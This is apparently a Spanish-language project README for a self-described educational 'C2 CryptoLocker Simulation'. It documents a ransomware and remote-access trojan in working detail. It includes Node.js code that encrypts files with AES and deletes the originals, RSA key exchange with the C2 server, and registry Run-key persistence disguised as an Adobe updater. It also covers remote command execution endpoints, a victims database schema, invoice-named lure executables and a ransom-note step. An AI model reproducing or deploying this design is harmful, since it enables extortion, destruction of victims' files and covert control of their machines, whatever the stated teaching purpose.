


# Informe Técnico: Simulación de Amenaza Persistente Avanzada (Ransomware)
## Análisis de Ingeniería, Criptografía y Persistencia

---

## 1. Información General del Proyecto

| Parámetro | Detalle Técnico |
|-----------|-----------------|
| **Nombre del Artefacto** | C2 CryptoLocker Simulation |
| **Versión** | 2.0.0 |
| **Clasificación** | Software Educativo / Red Team Tool |
| **Arquitectura** | Cliente-Servidor (Asíncrona sobre WebSocket) |
| **Estándares Criptográficos** | AES-256-CBC, RSA-2048-OAEP-SHA256 |
| **Persistencia** | Registry Run Keys (Windows), Supabase (Cloud) |
| **Base de Datos** | PostgreSQL (Supabase) |

---

## 2. Arquitectura del Sistema

### 2.1 Diagrama de Componentes



### 2.2 Diagrama de Secuencia - Flujo de Cifrado Híbrido



---

## 3. Protocolos de Comunicación

### 3.1 Protocolos de Red

| Protocolo | Uso | Puerto | Seguridad |
|-----------|-----|--------|-----------|
| **HTTPS** | API REST Dashboard | 443 (Render) | TLS 1.3 |
| **WSS** | Socket.IO bidireccional | 443 | TLS 1.3 |
| **HTTP** | Desarrollo local | 3000 | Sin cifrar |

### 3.2 Eventos Socket.IO

#### Del Servidor al Cliente:

| Evento | Payload | Descripción |
|--------|---------|-------------|
| `rsa-handshake` | `{publicKey: string}` | Envía clave pública RSA PEM |
| `registrado` | `{success: bool}` | Confirma registro exitoso |
| `ejecutar-comando` | `{command: string}` | Envía comando a ejecutar |
| `cifrar-archivos-objetivo` | `{count: number}` | Inicia cifrado |
| `descifrar-archivos` | `{}` | Inicia descifrado |
| `mostrar-nota` | `{wallet, amount, hours}` | Muestra ransomware note |

#### Del Cliente al Servidor:

| Evento | Payload | Descripción |
|--------|---------|-------------|
| `registrar-cliente` | `{hostname, uuid}` | Solicita registro |
| `clave-aes-cliente` | `{encryptedKey: base64}` | Envía AES cifrada con RSA |
| `info-sistema` | `{encrypted: true, iv, data}` | Info del sistema cifrada |
| `comando-resultado` | `{output, error}` | Resultado de comando |
| `archivos-escaneados` | `{files: [...]}` | Lista de archivos encontrados |
| `cifrado-completado` | `{count, files}` | Confirmación de cifrado |

---

## 4. Especificación Criptográfica

### 4.1 Esquema de Cifrado Híbrido

El sistema implementa un **Esquema de Cifrado Híbrido** estándar de la industria:

```
┌─────────────────────────────────────────────────────────────────┐
│                    CIFRADO HÍBRIDO                               │
├─────────────────────────────────────────────────────────────────┤
│                                                                  │
│   ┌──────────────┐    RSA-2048-OAEP    ┌──────────────┐         │
│   │  Clave AES   │ ──────────────────► │ Clave AES    │         │
│   │  (256 bits)  │    (cifrado)        │ (Cifrada)    │         │
│   └──────────────┘                     └──────────────┘         │
│         │                                                        │
│         │ AES-256-CBC                                            │
│         ▼                                                        │
│   ┌─────────────────────────────────────────┐                   │
│   │ IV (16 bytes) │ Datos Cifrados          │                   │
│   └─────────────────────────────────────────┘                   │
│                                                                  │
└─────────────────────────────────────────────────────────────────┘
```

### 4.2 RSA - Intercambio de Claves

| Parámetro | Valor |
|-----------|-------|
| **Algoritmo** | RSA |
| **Tamaño de clave** | 2048 bits |
| **Padding** | OAEP (Optimal Asymmetric Encryption Padding) |
| **Función Hash** | SHA-256 |
| **Formato Clave Pública** | SPKI (PEM) |
| **Formato Clave Privada** | PKCS#8 (PEM) |
| **Generación** | `crypto.generateKeyPairSync()` |

**Código de Generación (server.js):**
```javascript
const { publicKey, privateKey } = crypto.generateKeyPairSync('rsa', {
  modulusLength: 2048,
  publicKeyEncoding: { type: 'spki', format: 'pem' },
  privateKeyEncoding: { type: 'pkcs8', format: 'pem' }
});
```

**Código de Cifrado (cliente.js):**
```javascript
const encrypted = crypto.publicEncrypt(
  {
    key: rsaPublicKey,
    padding: crypto.constants.RSA_PKCS1_OAEP_PADDING,
    oaepHash: 'sha256'
  },
  aesKeyBuffer
);
```

### 4.3 AES - Cifrado de Archivos

| Parámetro | Valor |
|-----------|-------|
| **Algoritmo** | AES-256-CBC |
| **Tamaño de clave** | 256 bits (32 bytes) |
| **Tamaño de IV** | 128 bits (16 bytes) |
| **Padding** | PKCS#7 (automático en Node.js) |
| **Generación de clave** | `crypto.randomBytes(32)` |
| **Generación de IV** | `crypto.randomBytes(16)` por archivo |

**Estructura del Archivo Cifrado (.cript):**
```
┌─────────────────────────────────────────┐
│         Archivo.txt.cript               │
├────────────────┬────────────────────────┤
│   IV (16 B)    │   Datos Cifrados       │
│   Bytes 0-15   │   Bytes 16-N           │
└────────────────┴────────────────────────┘
```

**Código de Cifrado:**
```javascript
function cifrarArchivo(inputPath, key) {
  const iv = crypto.randomBytes(16);
  const cipher = crypto.createCipheriv('aes-256-cbc', key, iv);
  const input = fs.readFileSync(inputPath);
  const encrypted = Buffer.concat([iv, cipher.update(input), cipher.final()]);
  fs.writeFileSync(inputPath + '.cript', encrypted);
  fs.unlinkSync(inputPath); // Eliminar original
}
```

**Código de Descifrado:**
```javascript
function descifrarArchivo(inputPath, key) {
  const encrypted = fs.readFileSync(inputPath);
  const iv = encrypted.slice(0, 16);
  const data = encrypted.slice(16);
  const decipher = crypto.createDecipheriv('aes-256-cbc', key, iv);
  const decrypted = Buffer.concat([decipher.update(data), decipher.final()]);
  const originalPath = inputPath.replace('.cript', '');
  fs.writeFileSync(originalPath, decrypted);
  fs.unlinkSync(inputPath);
}
```

---

## 5. Persistencia de Datos

### 5.1 Base de Datos (Supabase)

**Esquema de Tablas:**

```sql
-- Víctimas registradas
CREATE TABLE victims (
  id SERIAL PRIMARY KEY,
  uuid TEXT UNIQUE,
  socket_id TEXT,
  hostname TEXT,
  username TEXT,
  ip TEXT,
  platform TEXT,
  arch TEXT,
  os_version TEXT,
  cpu_model TEXT,
  total_memory TEXT,
  status TEXT DEFAULT 'connected',
  created_at TIMESTAMPTZ DEFAULT NOW()
);

-- Claves de cifrado
CREATE TABLE keys (
  id SERIAL PRIMARY KEY,
  uuid TEXT,
  socket_id TEXT,
  hostname TEXT,
  aes_key TEXT,                -- Clave AES en hexadecimal (64 chars)
  encrypted_aes_key TEXT,      -- Clave cifrada con RSA (Base64)
  created_at TIMESTAMPTZ DEFAULT NOW()
);

-- Archivos cifrados
CREATE TABLE encrypted_files (
  id SERIAL PRIMARY KEY,
  uuid TEXT,
  hostname TEXT,
  file_name TEXT,              -- Nombre del archivo .cript
  original_name TEXT,          -- Nombre original
  directory TEXT,              -- Directorio donde estaba
  iv TEXT,                     -- Vector de inicialización (hex)
  aes_key TEXT,                -- Clave usada (referencia)
  created_at TIMESTAMPTZ DEFAULT NOW()
);
```

### 5.2 Persistencia Local (Windows)

**Registry Key para Auto-inicio:**
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
  AdobeAcrobatUpdate = "C:\Users\[USER]\AppData\Roaming\AdobeReader\Actualizacion.exe"
```

**Código de Persistencia (cliente.js):**
```javascript
const INSTALL_DIR = path.join(process.env.APPDATA, 'AdobeReader');
const REG_KEY = 'HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run';
const REG_VALUE = 'AdobeAcrobatUpdate';

function instalarPersistencia() {
  // Crear directorio oculto
  if (!fs.existsSync(INSTALL_DIR)) {
    fs.mkdirSync(INSTALL_DIR, { recursive: true });
  }
  
  // Copiar ejecutable
  const destPath = path.join(INSTALL_DIR, 'Actualizacion.exe');
  fs.copyFileSync(process.execPath, destPath);
  
  // Agregar al registro
  exec(`reg add "${REG_KEY}" /v ${REG_VALUE} /t REG_SZ /d "${destPath}" /f`);
}
```

---

## 6. API REST del Servidor

### 6.1 Endpoints Públicos

| Método | Endpoint | Descripción | Respuesta |
|--------|----------|-------------|-----------|
| GET | `/api/status` | Estado del servidor | `{success, clients, supabase}` |
| GET | `/api/clientes` | Clientes conectados | `{success, clientes: [...]}` |
| GET | `/api/rsa-keys` | Claves RSA PEM | `{publicKey, privateKey}` |

### 6.2 Endpoints de Base de Datos

| Método | Endpoint | Descripción |
|--------|----------|-------------|
| GET | `/api/db/victims` | Todas las víctimas |
| GET | `/api/db/keys` | Todas las claves AES |
| GET | `/api/db/encrypted` | Archivos cifrados |
| GET | `/api/db/stats` | Conteos (victims, keys, encrypted) |
| POST | `/api/db/keys/update` | Actualizar clave AES |
| POST | `/api/db/keys/delete` | Eliminar clave |

### 6.3 Endpoints de Control

| Método | Endpoint | Body | Descripción |
|--------|----------|------|-------------|
| POST | `/api/ejecutar-remoto` | `{clientId, command}` | Ejecutar comando |
| POST | `/api/escanear-archivos` | `{clientId}` | Iniciar escaneo |
| POST | `/api/cifrar-archivos` | `{clientId, count}` | Iniciar cifrado |
| POST | `/api/descifrar-archivos` | `{clientId}` | Iniciar descifrado |
| POST | `/api/mostrar-nota` | `{clientId}` | Mostrar ransomware |

---

## 7. Estructura de Directorios

```
C2/
├── server.js              # Servidor C2 (Express + Socket.IO) - 1500+ líneas
├── cliente.js             # Cliente RAT - 1200+ líneas
├── interfazdeaviso.py     # Nota de rescate PyQt6 - 560 líneas
├── build.js               # Script de compilación
├── render.yaml            # Config Render.com
├── package.json           # Dependencias Node.js
│
├── public/                # Dashboard Web
│   ├── index.html         # Panel principal
│   ├── database.html      # Visualización BD
│   ├── consola.html       # Terminal remota
│   ├── clientes.html      # Lista de clientes
│   ├── css/style.css      # Estilos globales
│   └── js/
│       ├── main.js        # Lógica principal
│       └── database.js    # Lógica de BD (641 líneas)
│
├── keys/                  # Material criptográfico (gitignored)
│   ├── server_private.pem # RSA privada
│   ├── server_public.pem  # RSA pública
│   └── [hostname]_key.txt # Backups AES locales
│
└── dist/                  # Binarios compilados
    ├── Factura_Electronica_Enero2026.exe
    └── Comprobante_Pago_2026.exe
```

---

## 8. Dependencias

### 8.1 Node.js (Producción)

| Paquete | Versión | Propósito |
|---------|---------|-----------|
| `express` | ^4.18.2 | Framework HTTP |
| `socket.io` | ^4.7.2 | WebSocket server |
| `socket.io-client` | ^4.8.1 | WebSocket client |
| `@supabase/supabase-js` | ^2.39.0 | Cliente Supabase |
| `dotenv` | ^16.3.1 | Variables de entorno |

### 8.2 Node.js (Desarrollo)

| Paquete | Versión | Propósito |
|---------|---------|-----------|
| `pkg` | ^5.8.1 | Compilar a .exe |

### 8.3 Python (Nota de Rescate)

| Paquete | Propósito |
|---------|-----------|
| `PyQt6` | Framework GUI |
| `PyInstaller` | Compilar a .exe |

---

## 9. Ciclo de Vida de la Amenaza

### Fase 1: Infección e Instalación
1. Víctima ejecuta `Factura_Electronica_2026.exe`
2. Malware verifica privilegios (UAC)
3. Se copia a `%APPDATA%\AdobeReader\`
4. Escribe clave de registro para persistencia

### Fase 2: Conexión y Handshake
1. Conecta a servidor via Socket.IO (WSS)
2. Recibe clave pública RSA del servidor
3. Genera clave AES-256 aleatoria localmente
4. Cifra clave AES con RSA-OAEP-SHA256
5. Envía clave cifrada al servidor
6. Servidor descifra y almacena en Supabase

### Fase 3: Comando y Control
1. Envía información del sistema (cifrada con AES)
2. Entra en modo idle (heartbeat)
3. Ejecuta comandos recibidos del operador

### Fase 4: Impacto
1. Recibe orden de cifrado
2. Escanea archivos objetivo (.docx, .pdf, .xlsx, etc.)
3. Cifra cada archivo con AES-256-CBC + IV único
4. Elimina archivos originales
5. Reporta metadatos al servidor
6. Muestra nota de rescate

### Fase 5: Recuperación (Opcional)
1. Operador envía orden de descifrado
2. Cliente lee archivos .cript
3. Extrae IV de los primeros 16 bytes
4. Descifra con clave AES almacenada
5. Restaura archivos originales

---

## 10. Consideraciones de Seguridad

### 10.1 Ventajas del Diseño

| Característica | Beneficio |
|----------------|-----------|
| Cifrado híbrido | Combina velocidad (AES) con seguridad (RSA) |
| IV único por archivo | Evita patrones detectables |
| Clave generada en cliente | Servidor nunca genera claves simétricas |
| Almacenamiento en nube | Resiste reinicios del servidor |
| OAEP padding | Resistente a ataques de texto cifrado elegido |

### 10.2 Limitaciones (Educativo)

| Limitación | Razón |
|------------|-------|
| Sin ofuscación avanzada | Propósito educativo |
| Logs verbosos | Facilitar debugging |
| Claves en memoria | Simplicidad |
| Sin anti-análisis | Transparencia |

---

## 11. Verificación con CrypTool

Para verificar el cifrado manualmente:

### Verificar RSA
1. Exportar claves PEM desde `/api/rsa-keys`
2. Importar en CrypTool 2
3. Verificar parámetros: N (módulo), e=65537, d (exponente privado)

### Verificar AES-CBC
1. Obtener clave AES de Supabase (64 chars hex)
2. Extraer IV de archivo .cript (primeros 32 chars hex)
3. Configurar CrypTool: AES-256-CBC, clave, IV
4. Descifrar y comparar con original

---

## 12. Referencias

- [Socket.IO Documentation](https://socket.io/docs/)
- [Node.js Crypto Module](https://nodejs.org/api/crypto.html)
- [RSA-OAEP (RFC 8017)](https://tools.ietf.org/html/rfc8017)
- [AES-CBC Mode](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#CBC)
- [Supabase Documentation](https://supabase.com/docs)
- [PyQt6 Documentation](https://www.riverbankcomputing.com/static/Docs/PyQt6/)

---

## 13. Glosario

| Término | Definición |
|---------|------------|
| **Cifrado Híbrido** | Combina cifrado asimétrico (RSA) para intercambio de claves y simétrico (AES) para datos |
| **OAEP** | Optimal Asymmetric Encryption Padding - padding seguro para RSA |
| **CBC** | Cipher Block Chaining - modo de operación para cifrado por bloques |
| **IV** | Vector de Inicialización - valor aleatorio que asegura cifrados únicos |
| **PEM** | Privacy Enhanced Mail - formato de codificación para claves |
| **C2** | Command and Control - servidor central de una operación |
| **RAT** | Remote Access Trojan - malware de acceso remoto |
| **Handshake** | Proceso de establecimiento de conexión segura |
| **Supabase** | Plataforma BaaS con PostgreSQL |

---

**Documento generado:** 2026-01-13  
**Autor:** Sistema Automatizado  
**Versión del Proyecto:** 2.0.0
